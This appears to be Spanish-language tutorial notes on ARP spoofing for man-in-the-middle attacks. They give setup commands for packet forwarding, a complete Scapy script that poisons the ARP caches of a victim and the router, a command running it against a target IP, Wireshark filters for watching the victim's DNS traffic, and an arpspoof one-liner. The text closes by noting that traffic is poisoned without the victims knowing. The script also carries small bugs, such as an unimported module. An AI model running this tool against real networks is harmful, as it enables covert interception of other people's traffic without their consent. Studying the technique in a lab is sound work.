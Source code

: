 El concepto de **Man-In-The-Middle** (**MITM**) es crucial aquí, ya que el atacante se posiciona estratégicamente entre dos partes para interceptar o modificar el tráfico de datos, una táctica común en ataques cibernéticos. Esta técnica es posible debido a la naturaleza de confianza del protocolo ARP, que no verifica si las respuestas a las solicitudes ARP son legítimas.

![[arpspoofer.drawio.png]]

- El atacante debe hacer creer al **Router** que la **IP** de la victima viene vinculada a mi dirección **MAC** enviando una respuesta falsificada.
- El atacante debe hacer creer a la maquina **victima** que la **IP** del Router tiene nuestra **MAC**, así alteramos la caché de ambos dispositivos alterando la Mac vinculada.

1 - Lo primero que debemos hacer es permitir aceptar paquetes entrantes para luego enviarlos al destino

```bash
iptables --policy FORWARD ACCEPT
```

2- Luego el ip_forward debe de estar seteado a 1, para después comunicarnos al destino legitimo. Si no lo hacemos, la victima no va a poder navegar después.

```bash
cat /proc/sys/net/ipv4/ip_forward
```

![[Pasted image 20240426135703.png]]

> Nos generamos una MAC aleatoria a modo de control para verla en el pc victima, esto lo podemos hacer con la aplicación macchanger de este mismo repositorio.

![[Pasted image 20240426150023.png]]


----

# arp_spoof.py

```python
#!/usr/bin/env python3
import scapy.all as scapy
import argparse
import time
import signal
from termcolor import colored

def signal_handler(sig, frame):
    print(colored(f"\n[!] Saliendo del programa...", 'red'))
    for sock in open_sockets:
        sock.close()
    sys.exit(1)

signal.signal(signal.SIGINT, signal_handler)


def get_arguments():
	parser = argparse.ArgumentParser(description="ARP Spoofer")
	parser.add_argument("-t", "--target", required=True, dest="ip_address", help="Host / IP Range to Spoof")

	return parser.parse_args()
	

def spoof(ip_address, spoof_ip):
    # valor 1, es una solicitud, 2 una respuesta, (en este caso nadie la solicitó)
    arp_packet = scapy.ARP(op=2, psrc=spoof_ip, pdst=ip_address, hwsrc="aa:bb:cc:44:55:66") # creo una respuesta ARP
    scapy.send(arp_packet, verbose=False)


def main():
	arguments = get_arguments()
	while True:
		spoof(arguments.ip_address, "192.168.1.1") # objetivo - Router
		spoof("192.168.1.1", arguments.ip_address) # se imvierte para hacer el proceso pero a la victima
		time.sleep(2)


if __name__ == '__main__':
	main()
	
```

```python3
sudo python3 arpspoof.py -t 192.168.1.155
```


> Una vez lanzada la aplicación, si abrimos el Wireshark filtrando por dns, veremos todas las solicitudes de la victima. 
   Si probamos a abrir una web, veremos que la estamos interceptando.
   Podemos filtrar por **dns** o por la info que veamos en el programa, por ej: **dns.qry.name == "hackerone.com"**


![[flameshotspoof.png]]

Y ya estaremos envenenando el trafico sin que se enteren.


Otra herramienta que automatiza todo es **arpspoof** funciona así:
```bash
arpspoof -i eth0 -t 192.168.1.155 -r 192.168.1.1
```

